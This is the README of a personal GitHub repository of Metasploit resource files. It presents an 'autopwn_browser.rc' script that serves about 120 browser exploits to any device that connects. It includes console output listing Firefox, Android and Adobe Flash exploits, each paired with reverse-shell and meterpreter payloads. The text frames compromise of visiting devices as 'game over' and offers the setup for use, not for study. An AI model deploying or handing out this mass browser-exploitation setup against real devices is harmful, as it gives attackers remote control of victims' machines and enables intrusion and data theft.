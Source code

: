 # metasploit_rc
My own personal metasploit files and configuations. Use with care!


# autopwn_browser.rc:

**This runs 120 different known browser attacks on all devices, once an infected device makes contact then its game over. Here is after the modules have initialized:**

``` Metasploit Ready
[*] Auxiliary module running as background job 0.

[*] Searching BES exploits, please wait...
msf5 auxiliary(server/browser_autopwn2) > [*] Starting exploit modules...
[*] Starting listeners...
[*] Time spent: 255.320071809
[*] Using URL: http://192.168.1.80:8080/

[*] The following is a list of exploits that BrowserAutoPwn will consider using.
[*] Exploits with the highest ranking and newest will be tried first.

Exploits
========

 Order  Rank       Name                                       Path            Payload
 -----  ----       ----                                       ----            -------
 1      Excellent  firefox_webidl_injection                   /JdNPeSseqKNaP  firefox/shell_reverse_tcp on 4442
 2      Excellent  firefox_tostring_console_injection         /ijaO           firefox/shell_reverse_tcp on 4442
 3      Excellent  firefox_svg_plugin                         /soGZt          firefox/shell_reverse_tcp on 4442
 4      Excellent  firefox_proto_crmfrequest                  /UnMWbI         firefox/shell_reverse_tcp on 4442
 5      Excellent  webview_addjavascriptinterface             /lZYBGdQSP      android/meterpreter/reverse_tcp on 4443
 6      Excellent  samsung_knox_smdm_url                      /XAwIjKeZhL     android/meterpreter/reverse_tcp on 4443
 7      Great      adobe_flash_worker_byte_array_uaf          /EZty           windows/meterpreter/reverse_tcp on 4444
 8      Great      adobe_flash_domain_memory_uaf              /cZEY           windows/meterpreter/reverse_tcp on 4444
 9      Great      adobe_flash_copy_pixels_to_byte_array      /wbAaHB         windows/meterpreter/reverse_tcp on 4444
 10     Great      adobe_flash_casi32_int_overflow            /iMcTsmjQ       windows/meterpreter/reverse_tcp on 4444
 11     Great      adobe_flash_delete_range_tl_op             /SPwTj          osx/x86/shell_reverse_tcp on 4447
 12     Great      adobe_flash_uncompress_zlib_uaf            /XgkwRihlQunYu  windows/meterpreter/reverse_tcp on 4444
 13     Great      adobe_flash_shader_job_overflow            /GFyUFSjgh      windows/meterpreter/reverse_tcp on 4444
 14     Great      adobe_flash_shader_drawing_fill            /QVBfjMKQQI     windows/meterpreter/reverse_tcp on 4444
 15     Great      adobe_flash_pixel_bender_bof               /yfZrub         windows/meterpreter/reverse_tcp on 4444
 16     Great      adobe_flash_opaque_background_uaf          /XOWNzjRr       windows/meterpreter/reverse_tcp on 4444
 17     Great      adobe_flash_net_connection_confusion       /vxkC           windows/meterpreter/reverse_tcp on 4444
 18     Great      adobe_flash_nellymoser_bof                 /gkOAg          windows/meterpreter/reverse_tcp on 4444
```